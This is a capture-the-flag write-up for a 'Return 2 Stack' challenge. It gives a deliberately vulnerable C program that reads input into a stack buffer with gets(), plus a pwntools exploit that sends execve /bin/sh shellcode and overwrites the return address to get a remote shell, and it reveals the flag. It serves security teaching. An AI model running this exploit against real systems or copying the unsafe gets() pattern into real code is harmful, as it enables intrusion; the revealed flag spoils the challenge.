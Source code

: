 # Return 2 Stack

Difficulty Level: Hard
 
Insert shellcode but this time try jumping where it is located
 
Connect via `nc challenge.ctf-fun.xyz 14012`

PS: Challenges in this category require a linux environment read [here](https://docs.google.com/document/d/13RjL_RWibA9xYOKvSCXpTGG0D2ZYa3kDzprGNa8ypeA/edit?usp=sharing) for a guide to installing a linux VM

### Hints

- no hints provided


## Deployment

```bash
cd service
sudo ./return2stack.sh &
```

## Solution
Looking at the source code, we see that the location is printed and we can overflow buffer.

```c
#include <stdio.h>

void vulnerable(){
	char buffer[64] = {0x00};

	printf("Try putting a shellcode and redirect the return address to the shellcode.\nNote that ASLR is enabled so buffer location always changes.\n");

	printf("Location of buffer: %p\n", buffer);
	gets(buffer);
}

int main(){
	setvbuf(stdout, NULL, _IONBF, 0);

	vulnerable();
}
```

The location of buffer always changes due to ASLR but it is printed for us to use. Make use of python sockets to receive the location then send a payload to jump to it. Same payload for shellcoder can be used here.

```python
"""
This exercise looks into returning to a stack location.
With ASLR included, I made it print the location of the buffer so that it is easier to reference to.

All you need to do is insert the shellcode and make the return address point to the shell code.
"""

from pwn import *

def main():
	#io = process('./return2stack')
	io = remote("challenge.ctf-fun.xyz", 14012)

	io.recvuntil(': ')

	buffer_loc = io.recv().decode()[:-1]
	log.info(f"Buffer location received: {buffer_loc}")
	
	# http://shell-storm.org/shellcode/files/shellcode-811.php
	shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73"
	shellcode += b"\x68\x68\x2f\x62\x69\x6e\x89"
	shellcode += b"\xe3\x89\xc1\x89\xc2\xb0\x0b"
	shellcode += b"\xcd\x80\x31\xc0\x40\xcd\x80"

	padding = b'A' * (76 - len(shellcode))

	shell_loc = p32(int(buffer_loc, 16))

	payload = shellcode + padding + shell_loc

	io.sendline(payload)
	io.interactive()

if __name__ == '__main__':
	main()
```
### Flag
19C4{Ex3CuTab1e_sT4ck_1z_5T0nkz}
